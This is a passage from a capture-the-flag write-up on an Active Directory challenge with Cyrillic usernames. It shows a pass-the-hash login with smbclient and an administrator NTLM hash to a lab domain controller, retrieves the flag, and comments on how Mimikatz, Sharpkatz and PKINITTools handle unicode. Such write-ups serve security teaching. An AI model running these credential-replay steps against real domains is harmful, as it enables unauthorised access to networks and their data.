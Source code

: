 
With the administrator NTLM hash, we can connect to the domain controller and grab the second flag:
```
$ smbclient //10.0.20.11/C$ -U администратор --pw-nt-hash C9876588D1B9FBACAA9A6F8D5642BFA8 -W CONTI.RU
smb: \> cd Users\администратор\Desktop\
smb: \Users\администратор\Desktop\> ls
  .                                  DR        0  Fri Mar 25 09:52:00 2022
  ..                                  D        0  Fri Apr  1 04:26:29 2022
  desktop.ini                       AHS      282  Fri Mar 25 04:06:13 2022
  flag.txt                            A       37  Fri Mar 25 09:53:05 2022

                26042623 blocks of size 4096. 22040327 blocks available
smb: \Users\администратор\Desktop\> get flag.txt 
getting file \Users\администратор\Desktop\flag.txt of size 37 as flag.txt (0.6 KiloBytes/sec) (average 0.6 KiloBytes/sec)
smb: \Users\администратор\Desktop\> ^C
```

And finally, get the second flag:
```
$ cat flag.txt
BZHCTF{pwning_ru_domain_is_fun_no?}
```

### Final thoughs

The challenge was not difficult from an Active Directory perspective. However, dealing with cyrillic characters was harden than we though because many tools don't support unicode correctly. We had to alternate Linux and Windows tools to made it.

For instance, when passing the hash with Mimikatz the user name is replaced with litteral `?` during NTLM authentication. On the other side Sharpkatz seemed to work fine, but we had so mess up with lsass memory that nothing was working fine in the VM... On the other side, all linux tools seemed to accept unicode character, expect PKINITTools.